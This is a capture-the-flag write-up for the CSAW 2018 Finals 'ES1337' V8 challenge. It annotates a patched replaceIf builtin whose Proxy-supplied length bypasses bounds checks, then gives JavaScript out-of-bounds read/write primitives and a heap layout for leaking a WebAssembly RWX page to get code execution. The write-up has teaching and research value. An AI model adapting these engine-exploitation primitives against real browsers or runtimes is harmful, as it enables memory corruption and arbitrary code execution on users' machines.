 ```yaml
---
layout: post
title:  "CSAW 2018 Final ES1337"
date:   2019-07-24 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Overview

In [this challenge](https://github.com/osirislab/CSAW-CTF-2018-Finals/tree/master/pwn/ES1337), a new native function `Array.prototype.replaceIf` has been implemented, which is used to replace the element of given index with a new value if the callback function returns true. In C++ implementation of this function, when given receiver(`this` argument) is a `Proxy`, it would optimize and fetch the array target inside the proxy to access the element, but will still use the length obtained from `Proxy`, which can cause out-of-bound access. We can use the OOB to leak the address of web assembly RWX page, rewrite the `kBackingOffset` of `ArrayBuffer`, and write shellcode to execute arbitrary code.

## 0x01 Usage

The new native function can be used as below.

```javascript
// array.replaceIf(idx, callback, newValue)
d8> a = [1,2,3]
[1, 2, 3]
d8> a.replaceIf(1, (e)=>e===1, 1337)
false
d8> a
[1, 2, 3]
d8> a.replaceIf(1, (e)=>e===2, 1337)
true
d8> a
[1, 1337, 3]
```

## 0x02 Implementation

The implementation of the new function can be found in [csaw.patch](https://github.com/osirislab/CSAW-CTF-2018-Finals/blob/master/pwn/ES1337/csaw.patch).

```c++
BUILTIN(ArrayReplaceIf) {
  HandleScope scope(isolate);

  // There must be at least 4 arguments
  // including `this` argument
  if (args.length() < 4)
    return isolate->heap()->ToBoolean(false);
  

  // 1. Let O be ? ToObject(this value).
  // args.receiver() is the `this` argument
  // this loads the `this` argument to `receiver`
  Handle<JSReceiver> receiver;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
      isolate, receiver,
      Object::ToObject(isolate, args.receiver(), "Array.prototype.replaceIf"));

  // 2. Let len be ? ToLength(? Get(O, "length")).
  // this loads array length to `raw_length_number`
  // note that `receiver` here can be any object including Proxy
  // which means the length here is controllable
  int length;
  Handle<Object> raw_length_number;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
      isolate, raw_length_number,
      Object::GetLengthFromArrayLike(isolate, receiver));

  // convert the length to C++ `int` primitive
  if (!ClampedToInteger(isolate, *raw_length_number, &length))
    return isolate->heap()->ToBoolean(false);

  // 3. Let index be ? ToInteger(arg[1])
  // args[1] is `idx` argument
  // convert the index to C++ `int` primitive
  int index;
  if (!ClampedToInteger(isolate, args[1], &index))
    return isolate->heap()->ToBoolean(false);

  // 4. Ensure index is less than length
  // if the length comes from Proxy 
  // and is larger than real array length
  // we can bypass this check even if `index >= real length`
  if (index >= length)
    return isolate->heap()->ToBoolean(false);

  // 5. Ensure arg[2] is callable
  // args[2] is `callback` argument
  if (!args[2]->IsCallable())
    return isolate->heap()->ToBoolean(false);

  // convert `callback` to Handle
  Object* func_obj = args[2];
  Handle<Object> func(&func_obj);

  // 6. If IsProxy(O), let A be ToProxy(O).target(), else let A be O
  // This is done for performance reasons. Proxied arrays would normally
  // take the slow path, we bypass this to take the fast path
  // this is problematic, 
  // because array length obtained comes from Proxy
  // instead of the array target inside this Proxy
  // which does not have to be same as the real array length
  Handle<JSReceiver> array_object;
  if (receiver->IsJSProxy()) {
    Handle<JSProxy> proxy = Handle<JSProxy>::cast(receiver);
    Handle<JSReceiver> obj(JSReceiver::cast(proxy->target()), isolate);
    array_object = obj;
  } else {
    array_object = receiver;
  }

  // 7. Check if fast path can be taken
  // this will be true if `array_object` is a normal array like [1.1]
  bool fast = EnsureJSArrayWithWritableFastElements(isolate, array_object, nullptr, 0, 0);

  // 8. Let E be ? Get(A, index)
  Handle<Object> element;
  if (fast) {
    // Fast path (packed elements)
    Handle<JSArray> array = Handle<JSArray>::cast(array_object);
    ElementsAccessor* accessor = array->GetElementsAccessor();
    element = accessor->Get(array, index);
    // OOB read here if index>=length, 
    // which can be resulted through manipulating Proxy
  } else {
    // Slow path, not related to vulnerability
    Handle<String> index_str = isolate->factory()->NumberToString(
        isolate->factory()->NewNumber(index));

    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
        isolate, element,
        Object::GetPropertyOrElement(isolate, array_object, index_str));
  }

  // 9. Let S be ? arg[2](E)
  // call the callback function 
  // using the retrieved element as argument
  // and assign the return value to raw_should_replace 
  Handle<Object> argv[] = {element};
  Handle<Object> raw_should_replace;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
    isolate, raw_should_replace,
    Execution::Call(isolate, func, receiver, 1, argv));

  // convert `raw_should_replace` to 
  // `should_replace` C++ `bool` primitive
  bool should_replace = raw_should_replace->BooleanValue(isolate);

  // 10. If !S, return false
  if (!should_replace)
      return isolate->heap()->ToBoolean(false);

  // 11. Let len be ? ToLength(? Get(O, "length")).
  // We check again to account for changes during the jscall
  // obtain the length again, 
  // which is same as the previous one
  // thus the length obtained can still come from Proxy
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
      isolate, raw_length_number,
      Object::GetLengthFromArrayLike(isolate, receiver));

  if (!ClampedToInteger(isolate, *raw_length_number, &length))
    return isolate->heap()->ToBoolean(false);

  // 12. Ensure index is less than length
  // still can be bypassed, for the same reason
  if (index >= length)
    return isolate->heap()->ToBoolean(false);

  // 13. Check if fast path can be taken
  // We check again to account for changes during the jscall
  fast = EnsureJSArrayWithWritableFastElements(isolate, array_object, nullptr, 0, 0);

  // 14. Set(O, index, arg[3])
  if (fast) {
    // Fast path (packed elements)
    Handle<JSArray> array = Handle<JSArray>::cast(array_object);
    ElementsAccessor* accessor = array->GetElementsAccessor();
    accessor->Set(array, index, args[3]);
    // therefore, for the same reason, here is an OOB write
  } else {
    // Slow path
    Handle<String> index_str = isolate->factory()->NumberToString(
        isolate->factory()->NewNumber(index));
    Handle<Object> new_obj(&args[3]);
    RETURN_FAILURE_ON_EXCEPTION(
        isolate,
        Object::SetPropertyOrElement(isolate, array_object, index_str, new_obj, LanguageMode::kStrict));
  }

  return isolate->heap()->ToBoolean(true);
}
```

## 0x03 Exploitation

Understanding the vulnerability, we can write the `oobRead` and `oobWrite` function.

```javascript
const handler1 = {
	get: function(target, prop, receiver)
	{
		if (prop === 'length') {
			return 0x1000;
		} else {
			return target[prop];
		}
	}
};
var a = [1.1];
var p = new Proxy(a, handler1);
function oobRead(idx)
{
	var ret;
	Array.prototype.replaceIf.call(p, idx,
		function(element){ret=element;return false;}, 1);
	// the element passed into callback function
	// will be an OOB read
	return ret;
}
function oobWrite(idx, val)
{
	Array.prototype.replaceIf.call(p, idx, ()=>true, u2d(val));
	// let callback return true,
	// so `val` will be written to float64 array
}
```

Then we need to try to leak the RWX page address of web assembly and write shellcode on it. The idea is to allocate `ArrayBuffer` and `Object` instances just after the array so that the OOB can access fields in these instances.

```javascript
const arrs = [];
const abs = [];
var a = [1.1];
// the array used for OOB accessing
dp(a);

for (var i = 0; i < 0x10; i++)
{
	abs.push(new ArrayBuffer(0x100+i));
	// size can be used to identify the index
	arrs.push({a:0xdead, b:0xbeef, d:wmain})
}
// allocate ArrayBuffer and Objects just after [1.1]
```

Then we can leak address of `wmain` by looking for `0xdead00000000` and `0xbeef00000000`, and rewrite `kBackingOffset` field in `ArrayBuffer` to achieve arbitrary memory read and write. The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/es1337.js).

